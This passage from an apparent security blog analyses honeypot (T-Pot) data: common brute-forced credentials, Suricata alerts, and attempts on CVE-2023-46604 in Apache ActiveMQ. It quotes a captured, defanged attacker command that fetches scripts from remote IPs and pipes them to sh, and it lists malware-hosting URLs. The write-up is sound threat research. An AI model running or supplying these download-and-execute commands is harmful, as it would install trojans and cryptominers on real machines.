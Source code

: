 ![image](https://bohansec.com/assets/t-pot-blog/26.png "image")

![image](https://bohansec.com/assets/t-pot-blog/27.png "image")

We can see the most targeted account on my SSH and Telnet services is the "root" with the password "123456".

![image](https://bohansec.com/assets/t-pot-blog/28.png "image")

Let's also examine the Suricata results, we can see there is some Nmap and RDP scanning activity, and most notably there are attempts on CVE-2023-46604 which is a critical vulnerability for Apache ActiveMQ. This vulnerability has been observed being exploited in the wild and comes with Cryptominers and Rootkits being deployed once successful. Please refer to the following link to learn more about it:

[CVE-2023-46604 (Apache ActiveMQ) Exploited to Infect Systems With Cryptominers and Rootkits](https://www.trendmicro.com/en_ae/research/23/k/cve-2023-46604-exploited-by-kinsing.html){:target="_blank"}

![image](https://bohansec.com/assets/t-pot-blog/29.png "image")

Out of curiosity, I examined one of the payloads that was captured from the CVE-2023-46604 attempts.

```
hxxp[://]188[.]166[.]177[.]88/wp-content/themes/twentynineteen/poc2[.]xml
```

![image](https://bohansec.com/assets/t-pot-blog/30.png "image")

In the screenshot, we can see the above URL is used to host additional malware download commands by the threat actors:

```
bash-ccurl hxxp[://]208[.]115[.]245[.]46:2002/a; (wget -qO - hxxp[://]161[.]35[.]219[.]184/[.]s/1sh || curl hxxp[://]161[.]35[.]219[.]184/[.]s/3sh) | sh
```

![image](https://bohansec.com/assets/t-pot-blog/31.png "image")

After downloading the content from the above URLs, it appears additional malware payload was hosted at the following URL:

```
hxxp[://]139[.]180[.]185[.]248/wp-content/
```

![image](https://bohansec.com/assets/t-pot-blog/32.png "image")

Examining the hashes in VirusTotal, we found these "PTY" files appear to be some sort of Linux trojan that is used by attackers to gain control of the compromised Linux machines.  

![image](https://bohansec.com/assets/t-pot-blog/33.png "image")

![image](https://bohansec.com/assets/t-pot-blog/34.png "image")
